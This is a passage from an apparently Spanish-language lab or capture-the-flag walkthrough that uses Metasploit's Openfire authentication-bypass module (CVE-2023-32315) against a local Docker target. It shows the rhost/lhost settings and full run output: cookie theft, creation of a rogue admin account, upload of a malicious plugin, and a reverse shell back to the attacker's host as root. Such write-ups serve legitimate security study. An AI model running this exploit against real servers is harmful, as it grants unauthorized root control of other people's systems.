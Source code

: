 ```bash
   0   Java Universal

View the full module info with the info, or info -d command.

```

En este caso solo tenemos que modificar la ip del servidor con `set rhost 172.17.0.2` y nuestra ip para conseguir una shell reversa con `set lhost 172.17.0.1`

```bash
msf6 exploit(multi/http/openfire_auth_bypass_r
ce_cve_2023_32315) > set rhosts 172.17.0.2
rhosts => 172.17.0.2
msf6 exploit(multi/http/openfire_auth_bypass_r
ce_cve_2023_32315) > set lhost 172.17.0.1
lhost => 172.17.0.1

```

Ejecutamos el exploit con `run` y obtenemos la shell reversa como **root**.

```bash
msf6 exploit(multi/http/openfire_auth_bypass_r
ce_cve_2023_32315) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Openfire version is 4.7.4
[*] Grabbing the cookies.
[*] JSESSIONID=node0cth6fd268hoq15f35ozhcwbce178.node0
[*] csrf=lIe3q07bz2wrINa
[*] Adding a new admin user.
[*] Logging in with admin user "tcodhiugrmxzf" and password "2HvOx3pY".
[*] Upload and execute plugin "aoxYPFC316nfr" with payload "java/shell/reverse_tcp".
[*] Sending stage (2952 bytes) to 172.17.0.2
[!] Plugin "aoxYPFC316nfr" need manually clean-up via Openfire Admin console.
[!] Admin user "tcodhiugrmxzf" need manually clean-up via Openfire Admin console.
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:53926) at 2024-06-25 21:28:44 +0200

id
uid=0(root) gid=0(root) groups=0(root)
hostname
9566bdac1160

```
